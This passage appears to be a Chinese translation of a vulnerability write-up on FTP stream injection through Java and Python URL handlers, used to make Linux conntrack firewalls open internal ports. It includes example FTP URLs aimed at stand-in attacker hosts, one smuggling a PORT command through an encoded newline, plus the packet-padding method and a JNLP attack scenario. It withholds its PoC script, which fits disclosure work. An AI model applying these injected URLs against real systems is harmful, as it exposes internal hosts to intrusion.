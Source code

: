 **问题一：确定内部IP地址**

首先，攻击者需要确定目标主机的内部IP地址，否则防火墙将会忽略我们注入的PORT命令。此时，攻击者可以发送一个URL，然后观察客户端的行为，然后再不断地重复操作，直到攻击成功。

比如说，攻击者可以给目标提供一个FTP URL，这个URL指向的是攻击者服务器的一个非常用端口：

```
ftp://u:p@evil.example.com:31337/foodir/z.txt
```

请注意，这里还不用进行协议流注入尝试。FTP客户端会尝试建立一个被动会话并获取z.txt文件，但如果攻击者的FTP服务器拒绝PASV命令，那么客户端将会以传统模式发送PORT命令。由于控制通道使用的是非标准端口，所以目标主机的防火墙不太可能会解析会话中的这个PORT命令，此时便会导致目标主机的内部IP地址被泄露给攻击者。

**问题二：数据包分组**

FTP是一种同步的、基于文本行的协议，通信双方的数据是按行传输的。这也就意味着通信的一方在得到对方响应之前，最多只能写一行命令。

但是在Linux下，实现攻击的前提必须是数据包头部出现有PORT命令才可以（我们为什么要针对Linux的conntrack模块呢？因为大多数商业防火墙都是安装在Linux平台中的。），因此下面这个URL并不会让Linux防火墙开启目标端口：

```
ftp://u:p@evil.com/foodir%0APORT%2010,1,1,1,5,57/z.txt
```

如果你仔细分析一下这个URL。你就会发现客户端所发送的命令被划分成了单独的分组：

```
--Packet 1--
USER u
--Packet 2--
PASS p
--Packet 3--
TYPE I
--Packet 4--
CWD foodir
PORT 10,1,1,1,5,57
--Packet 5--
...
```

由于PORT命令出现在了Packet 4中，所以Linux将会忽略它，因此我们要想办法让客户端将PORT命令放在数据包的头部。我们知道Java或Python可以在一次write(2)调用中发送两条指令，那么如果我们使用的CWD命令足够长，并且填充满了一个TCP数据包之后，那么PORT命令自然也就会被挤到下一个数据包的头部了。

<br>

**攻击PoC**

为了验证攻击，我专门开发了一个攻击脚本，但是在Oracle公司和Python开发者修复相应漏洞之前我不会将这个脚本发布出来。

脚本首先会给攻击者提供一个URL来对目标主机进行测试，然后自动建立一个恶意FTP服务器。当服务器接收到第一个请求之后，FTP服务器便会计算出一个长度足以让PORT命令出现在数据包头部的新的URL。一般来说，完整的攻击过程只需要三次SSRF攻击，三次攻击之后便可以在目标主机上开启一个TCP端口，而此后的每一次额外的SSRF攻击都可以另外开启一个TCP端口。由于大多数防火墙不允许客户端通过1024以下的端口来建立数据通道，因此攻击者的目标端口范围一般是1024-65535。

<br>

**攻击场景**

**1. JNLP文件**

这也许是最令人惊讶的一种攻击场景了，如果安装了Java的桌面用户访问了一个恶意站点，那么即使Java applet被禁用了，攻击者仍然可以让Java Web去解析JNLP文件，而这些文件中将包含可以触发该漏洞的恶意FTP URL。聪明的攻击者首先会确定目标用户的内部IP地址，然后判断出恰当的数据包分组，最后利用漏洞来一次性地完成攻击（仅用一个JNLP文件便可以开启多个通信端口）。由于Java会在发出安全警告之前完成JNLP文件的解析工作，所以攻击会在用户毫不知情的情况下完成。
